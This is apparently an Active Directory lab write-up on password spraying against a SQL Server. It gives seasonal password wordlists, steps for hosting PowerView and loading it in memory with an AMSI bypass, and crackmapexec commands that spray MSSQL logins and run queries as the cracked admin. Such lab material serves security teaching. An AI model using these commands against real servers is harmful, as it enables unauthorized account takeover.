 # Weak passwords

## Configuring

### Prerequisite&#x20;

The weak passwords were configured during the creation of the SQL Server users and Domain users in the section "Enumerate Logins".

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

## Attacking

### How it works

SQL Servers can have two type of accounts that could connect to it. Domain user accounts and groups or SQL Server accounts. These accounts have access to the SQL server and might have higher privileges then we currently have. By spraying passwords against these user we might get access to them.

#### Password spraying

Password spraying is a type of brute force attack. An attacker will try a default password against a list of usernames. For example, an attacker uses the password `Welcome2022!` against many different accounts to avoid account lockout that would normally occur when brute-forcing a single account with many passwords.

A old habit what a lot of companies enforce is the requirement to change passwords every 30, 60 or 90 days. Which results in people changing their password often, forgetting it and eventually choosing a easy guessable password. Another habbit is adding a increment to the same password or using months/seasons. Which means we can easily create a password list of common passwords and things people would choose using following formats:

* season+year+! (Summer2022!)
* month+year+! (March2022!)
* companyname+year+! (Amsterdambank2022!)
* city+! (Amsterdam!)
* etc.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)

### Executing the attack

1. So during the enumeration we discovered that there are three domain users or groups: `AMSTERDAM\richard`,  `BANK\administrator` and `AMSTERDAM\DatabaseUsers`.&#x20;
2. To check which of these are users and groups, login to `WS01` as `Richard` with the password `Sample123`.
3. Download PowerView on the kali machine and host it on a webserver:

```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
python3 -m http.server 8090
```

4\. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../../../.gitbook/assets/image (7).png>)

5\. Now we can query these objects using PowerView and the `Get-DomainObject` cmdlet. We already know who Richard is and the Administrator is a well known user. We will query DatabaseUsers:

```
Get-DomainObject DatabaseUsers
```

![](<../../../../../.gitbook/assets/image (52) (1).png>)

6\. The output shows us that the `DatabasUsers` is a group object and that `bob` is its only member.

7\. We already sprayed passwords at the SQL server during the initial access steps. We will do it again here. First we need to make a list of the enumerated logins, we will split them in `sqlusers.txt` and `domainusers.txt`.

```
# sqlusers.txt
Developer
Developer_test
testadmin
bob
SQLAdmin

# domainusers.txt
bob
```

8\. Secondly create a `passwords.txt` file and copy the following passwords like we did during the password spraying attack earlier and we will also add the usernames since sometimes admin set the username as the password:

```
Spring2022!
Winter2022!
Autumn2022!
Summer2022!
Welcome2022!
Bank2022!
AmsterdamBank2022!
Fall2022!
testadmin
bob
SQLAdmin
Developer
Developer_test
```

9\. First we will run Crackmapexec to connect to the MSSQL service running on `WEB01` and spray with local SQL users. We have to use the `--local-auth` flag otherwise it will spray under the domain context. We will also use the `--continue-on-success` flag so it doesn't stop after the first successfull hit.

```
crackmapexec mssql 10.0.0.5 -u sqlusers.txt -p passwords.txt --local-auth --continue-on-success | grep "+"
```

![](<../../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png>)

We found the password for three users and it seems thats `SQLAdmin` has sysadmin rights since it shows `Pwn3d!` , this means it has admin rights. Since we are spraying MSSQL logins this means sysadmin rights. If we were spraying with SMB it meant the user was localadmin on the machine.

10\. We can also run Crackmapexec with the domain context:

```
crackmapexec mssql 10.0.0.5 -u domainusers.txt -p passwords.txt --continue-on-success | grep "+"
```

![](<../../../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1).png>)

We discovered the password of another user `bob`, but this time the Domain User. We already connected to the SQL service using both SQL accounts and Domain user accounts. This can be done with tools such as mssql-cli or heidiSQL.&#x20;

11\. Something we didn't show is that its possible to execute sql queries with crackmapexec:

```
crackmapexec mssql 10.0.0.5 -u SQLAdmin -p Winter2022! --local-auth -q "select @@version"
```

![](<../../../../../.gitbook/assets/image (36) (1) (1).png>)

There will always be loads of tools which can do the same stuff, it will always come down to convenience and where you are used too or like the most. Check the executing commands page under SQL Server Attacks to read how to execute cmd commands:

{% content-ref url="../../executing-commands.md" %}
[executing-commands.md](../../executing-commands.md)
{% endcontent-ref %}

## Defending

### Recommendations

* Implement a strong password policy:

{% content-ref url="../../../../../defence/hardening/strong-password-policy.md" %}
[strong-password-policy.md](../../../../../defence/hardening/strong-password-policy.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}
